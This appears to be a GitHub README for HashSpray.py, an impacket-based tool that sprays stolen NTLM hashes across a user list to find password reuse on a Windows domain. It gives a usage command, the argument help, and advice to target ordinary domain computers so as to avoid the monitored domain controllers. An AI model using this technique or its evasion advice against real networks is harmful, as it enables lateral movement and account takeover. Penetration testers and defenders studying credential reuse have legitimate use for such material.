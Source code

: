 # HashSpray.py

Got hashes from a compromised machine and want to test if the password hash have been reused over multiple accounts? Get a userlist and spray with this tool with -hashes parameter and with the -target-ip pointing at ANY domain joined computer. You dont need to spray the heavy monitored domain controllers, authenticated users will have access to the IPC$ share by default.


This was built using the impacket library

```
python hashspray.py -userlist users -hashes :1uca3d1bd1a33geb1b15bab12196r5aa -target-ip 192.168.5.1
```
Userlist example

```
domain\user
user
```

```
authentication:
  -userlist userlist    List of users to spray, format is [[domain/]username
  -password password    Clear-text password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it
                        will use the domain part (FQDN) specified in the
                        target parameter
  -target-ip ip address
                        IP Address of the target machine. This may be any be
                        any domain joined computer or a domain controller
  -port [destination port]
                        Destination port to connect to SMB Server

threads:
  -threads threads      Number of threads to use, default is 1
```
